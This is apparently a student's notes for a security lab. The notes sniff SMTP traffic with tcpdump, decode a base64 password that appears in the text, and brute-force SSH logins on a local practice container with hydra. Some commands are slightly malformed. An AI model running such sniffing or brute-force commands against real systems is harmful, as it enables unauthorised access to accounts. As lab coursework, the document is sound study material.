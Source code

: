 ## Task0
- downloaded the script
- seen the man for tcpdump
- opened two terminal windows
- On first I started ```sudo tcpdump -i host smtp.sendgrid.net -w logz.pcap``` command
- In another window I ran the script(to sniff the packets from)
- opped logz.pcap in the wireshark
- looked where it is written pass(Or password)
- Took the value and used ```echo 'value(bXlwYXNzd29yZDk4OTgh)' | base64 --decode``` to get the actaul password.
- put the password in the 0-sniffing file.


## Task1
- Installed Docker: ```sudo snap install docker```
- Installed hydra: ```sudo apt install hydra```
- Ran the docker image: ```sudo docker run -p 2222:22 -d -ti sylvainkalache/264-1```
> Corrected dictionaries from github
> Used ```grep -l '(\w{11})' <mix-number-words file> > 11-common_pass.txt```
> Then used hydra command ```sudo hydra -l sylvain -P 11-10k_common.txt 127.0.0.1 ssh```
